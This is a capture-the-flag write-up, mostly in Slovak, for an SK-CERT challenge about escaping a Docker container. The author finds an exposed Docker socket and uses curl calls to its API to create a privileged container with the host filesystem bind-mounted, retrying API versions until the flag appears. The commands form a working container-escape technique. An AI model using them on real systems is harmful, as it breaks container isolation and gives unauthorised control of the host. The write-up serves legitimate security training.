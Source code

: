 # Zadanie

EN: You are root, but it seems you are inside a Docker container. Can you escape somehow once again?

SK: Si root, ale vyzerá, že si vo vnútri Docker kontajneru. Dokážeš z neho nejako utiecť?

## Riešenie

Z predošlej úlohy máme roota a ako zadanie máme uniknúť z docker kontajnera. `docker` príkaz mi nejde, lebo nie je binárka docker, pozrieme či nebeží docker socket a beží. Skúsime sa pohrať s týmto.

```
docker
/bin/sh: 7: docker: not found

ls -l /run
total 8
-rw-r--r-- 1 root root    0 May 14  2024 adduser
drwsrwsrwx 2 root root 4096 Apr 10 14:06 docker
drwxrwxrwt 2 root root 4096 May 13  2024 lock

ls -l /run/docker
total 0
srw-rw---- 1 root root 0 Apr 10 14:06 docker.sock

ls -la /run/docker/docker.sock
srw-rw---- 1 root root 0 Apr 10 14:06 /run/docker/docker.sock

curl --unix-socket /run/docker/docker.sock  "http://localhost/_ping"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    23  100    23    0     0    812      0 --:--:-- --:--:-- --:--:--   821
{"message":"Not Found"}
```

Dostávame nejakú odpoveď zo socketu.. Skúsime teda vytvoriť kontajner s Binds na hosta a privileged.

```
curl --unix-socket /run/docker/docker.sock -X POST -H "Content-Type: application/json" -d '{"Image": "ubuntu:latest", "Cmd": ["sleep", "infinity"], "HostConfig": {"Binds": ["/:/host"], "Privileged": true}}' "http://localhost/containers/create?name=escape"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   137  100    23  100   114   1969   9761 --:--:-- --:--:-- --:--:-- 12454
{"message":"Not Found"}
```

stále not found... 

Skúsime zadať verziu api, napr 1.44

```
curl --unix-socket /run/docker/docker.sock -X POST -H "Content-Type: application/json" -d '{"Image": "ubuntu:latest", "Cmd": ["sleep", "infinity"], "HostConfig": {"Binds": ["/:/host"], "Privileged": true}}' "http://localhost/v1.44/containers/create?name=escape"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   137  100    23  100   114   1001   4966 --:--:-- --:--:-- --:--:--  6227
{"message":"Not Found"}
```

možno iná, napríklad 1.48

```
curl --unix-socket /run/docker/docker.sock -X POST -H "Content-Type: application/json" -d '{"Image": "ubuntu:latest", "Cmd": ["sleep", "infinity"], "HostConfig": {"Binds": ["/:/host"], "Privileged": true}}' "http://localhost/v1.48/containers/create?name=escape"
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   178  100    64  100   114   2825   5032 --:--:-- --:--:-- --:--:--  8090
{"message":"SK-CERT{4nd_7hat5_h0W_U_3scaP3_A_D0cK3r_c0nt41ne6}"}
```

Bingo.. Máme vlajku..

> Poznámka... včase písania write-upu boli cesty aj práva iné.. V čase prvého vyriešenia bola cesta socketu `/var/run/docker.sock` a nebolo vôbec potrebné byť root. 

## Vlajka

```
SK-CERT{4nd_7hat5_h0W_U_3scaP3_A_D0cK3r_c0nt41ne6}
```
